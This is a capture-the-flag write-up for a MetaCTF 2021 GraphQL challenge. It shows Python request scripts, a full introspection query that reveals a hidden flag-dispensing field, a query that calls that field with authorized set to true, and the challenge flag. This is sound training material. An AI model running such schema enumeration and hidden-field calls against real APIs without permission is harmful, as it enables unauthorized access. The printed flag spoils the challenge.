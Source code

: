 # MetaCTF 2021

## Looking Inwards (300pts)

### Description:

> It's always fun to take a moment of introspection, in this case not about oneself, but about our field (development/security). For example when it comes to API design, first there were SOAP endpoints primarily based on XML. Then as Web 2.0 came along, RESTful APIs became all the rage. Recently, technologies like GraphQL began to gain traction.

> With new technologies, though, come new classes of attacks. Check out this basic [GraphQL API server](https://metaproblems.com/bb0e56b64e0a17b47450457b07fd2353/graphql.php). To get you started, here's one cool thing it can do: If you send it a `query` in the form of `echo(message: "message_here")`, it will respond with what you said. Can you get it to give you the flag?

### Included Files:

> No files provided

### Step 1 - Sending a Query to the GraphQL API

Before we could attempt to find the flag, first we wanted to get a valid response back from the GraphQL server using the query `echo(message: "message_here")` which was provided in the challenge description.

We used the following [tutorial](https://towardsdatascience.com/connecting-to-a-graphql-api-using-python-246dda927840) from `Towards Data Science` which walked us through how to send a GraphQL request using Python. Below allowed us to send that query.

```python
import requests
import pandas as pd

query = '''query {
	echo(message: "message_here")
}'''

url = 'https://metaproblems.com/bb0e56b64e0a17b47450457b07fd2353/graphql.php'
r = requests.post(url, json={'query': query})
print(r.text)
```

Output:

```JSON
{"data":{"echo":"You said: message_here"}}
```

### Step 2 - Find Other Endpoints on GraphQL API

After a bit of research, we learned we can use a technique called `introspection` on GraphQL APIs to find other endpoints. Using the following [tutorial](https://blog.yeswehack.com/yeswerhackers/how-exploit-graphql-endpoint-bug-bounty/) from `Yes We Hack`, they included the following request:

```
{__schema{queryType{name}mutationType{name}subscriptionType{name}types{...FullType}directives{name description locations args{...InputValue}}}}fragment FullType on __Type{kind name description fields(includeDeprecated:true){name description args{...InputValue}type{...TypeRef}isDeprecated deprecationReason}inputFields{...InputValue}interfaces{...TypeRef}enumValues(includeDeprecated:true){name description isDeprecated deprecationReason}possibleTypes{...TypeRef}}fragment InputValue on __InputValue{name description type{...TypeRef}defaultValue}fragment TypeRef on __Type{kind name ofType{kind name ofType{kind name ofType{kind name ofType{kind name ofType{kind name ofType{kind name ofType{kind name}}}}}}}}
```

After putting this request into our script from the previous step, we found the following in the output:

```JSON
{
    "name": "super_super_secret_flag_dispenser",
    "description": null,
    "args": [{
        "name": "authorized",
        "description": null,
        "type": {
            "kind": "NON_NULL",
            "name": null,
            "ofType": {
                "kind": "SCALAR",
                "name": "Boolean",
                "ofType": null
            }
        },
        "defaultValue": null
    }],
    "type": {
        "kind": "NON_NULL",
        "name": null,
        "ofType": {
            "kind": "SCALAR",
            "name": "String",
            "ofType": null
        }
    },
    "isDeprecated": false,
    "deprecationReason": null
    }],
    "inputFields": null,
    "interfaces": [],
    "enumValues": null,
    "possibleTypes": null

}
```
This shows that there is an endpoint called `super_super_secret_flag_dispenser` that takes in a boolean called `authorized`.

## Step 3 - Retrieving the Flag

Using the information from the previous step, we crafted the following query:

```
query {
    super_super_secret_flag_dispenser(authorized: true)
}
```

Our final script looks like this:

```Python
import requests
import pandas as pd

query = '''query{
    super_super_secret_flag_dispenser(authorized: true)
}'''

url = 'https://metaproblems.com/bb0e56b64e0a17b47450457b07fd2353/graphql.php'
r = requests.post(url, json={'query': query})
print(r.text)
```

<details>
<summary> Output (contains the flag) </summary>
<p>
{"data":{"super_super_secret_flag_dispenser":"MetaCTF{look_deep_and_who_knows_what_you_might_find}"}}
</p>
</details>

<details>
    <summary> Flag Spoiler </summary>
    MetaCTF{look_deep_and_who_knows_what_you_might_find}
</details>

## Learning Takeaways
We can use introspection in order to discover endpoints of a GraphQL API. GraphQL APIs can disable introspection and it is a recommended practice for production. Well-made documentation is preferred. Python is a powerful tool for completing GraphQL challenges in the future.
